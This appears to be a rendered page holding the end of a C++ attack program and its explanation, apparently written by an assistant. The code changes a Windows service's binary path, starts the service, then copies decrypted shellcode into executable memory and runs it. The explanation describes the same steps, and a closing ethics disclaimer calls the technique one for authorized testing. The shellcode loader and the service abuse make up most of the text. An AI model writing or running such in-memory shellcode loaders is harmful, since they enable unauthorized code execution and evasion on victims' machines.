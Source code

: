 ```cpp
    if (!exec_mem) {
        std::cerr << "VirtualAlloc failed. Error: " << GetLastError() << std::endl;
        CloseServiceHandle(service);
        CloseServiceHandle(scManager);
        return -1;
    }

    // Copy the decrypted shellcode to the allocated memory
    memcpy(exec_mem, buf, BUF_SIZE);

    // Execute the shellcode
    ((void(*)())exec_mem)();

    // Free the allocated memory
    VirtualFree(exec_mem, 0, MEM_RELEASE);

    // Close handles
    CloseServiceHandle(service);
    CloseServiceHandle(scManager);

    return 0;
}
```

### **Explanation:**

1. **ChangeServiceConfigA**: The service's binary path is modified to point to a harmless executable, like `cmd.exe`. This is just a placeholder to start the service without crashing it. The actual payload (shellcode) will be executed in memory after the service starts.

2. **StartServiceA**: The service is started using `StartServiceA`. If the service starts successfully, the shellcode is then decrypted and executed.

3. **Shellcode Execution**: The shellcode is loaded into a memory location with execute permissions, decrypted, and then executed.

### **Security Considerations:**

- **Testing Environment**: Ensure this code is only run in a secure, controlled environment where you have explicit permission to test.
- **Ethics**: Unauthorized modification of services or execution of shellcode on systems is illegal and unethical. This technique should only be used for authorized security research or penetration testing.

This code demonstrates how to modify a service, start it, and then execute shellcode in memory.

